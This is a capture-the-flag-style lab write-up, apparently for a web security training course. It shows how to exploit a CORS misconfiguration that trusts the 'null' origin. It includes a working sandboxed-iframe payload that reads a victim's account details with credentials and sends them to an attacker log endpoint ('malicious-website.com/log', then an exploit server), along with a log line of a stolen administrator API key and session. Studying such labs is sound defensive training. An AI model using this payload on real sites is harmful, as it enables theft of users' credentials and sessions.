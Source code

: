 ![CORS](cors-vulnerability-with-trusted-null-origin.png)

In this apprentice-level lab, we will exploit a website with a CORS vulnerability that trusts the "null" origin to obtain a user's private credentials.

* * * * *

Upon logging in with the given credentials, we visit the account details page and check the response headers of the request to `/accountDetails` that fetches the user's API key:

```
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "JQ7ufLKKzNoI4ahWKAKWBG5eP64wgwJW",
  "sessions": [
    "cdmflpOO6psYIp3novWUytbSDM9i68X1"
  ]
}

```

We can see that the `Access-Control-Allow-Credentials: true` is present, let's try to duplicate this request and change the Origin header to something like `Origin: <https://example.com`> and see if this value is reflected, the resulting response will be something like this:

```
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "JQ7ufLKKzNoI4ahWKAKWBG5eP64wgwJW",
  "sessions": [
    "cdmflpOO6psYIp3novWUytbSDM9i68X1"
  ]
}

```

The Origin set in the request headers is not present in the `Access-Control-Allow-Origin` response headers, this could mean that the server does not have CORS vulnerabilities, let's try setting the `Origin` header to `null` :

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "JQ7ufLKKzNoI4ahWKAKWBG5eP64wgwJW",
  "sessions": [
    "cdmflpOO6psYIp3novWUytbSDM9i68X1"
  ]
}

```

The `null` Origin set in the request headers is present in the `Access-Control-Allow-Origin` response headers, this confirms us that this request has a CORS vulnerability via `null` origin, let's use the reading material's sandboxed iframe template to craft our exploit so that the request is sent with the `Origin` header set to `null`:

```

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','<https://vulnerable-website.com/sensitive-victim-data>',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>

```

We have to modify out exploit to include the vulnerable website's `/accountDetails` endpoint and our exploit server `/log` endpoint, the final exploit will look like this:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','${LAB_URL}/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='{$EXPLOIT_SERVER_URL}/log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>

```

After sending this exploit to our victim we can read their credentials in our exploit server logs:

```
10.0.4.136      2023-01-18 23:07:09 +0000 "GET //log?key=%7B%0A%20%20%22username%22%3A%20%22administrator%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%22Cy5kzHkRRPli91YtqkDD7D5dOR3Nz7UH%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%22EPRXweYrVmKehWugd71p4CrWwJvBn4YS%22%0A%20%20%5D%0A%7D HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.74 Safari/537.36"

```
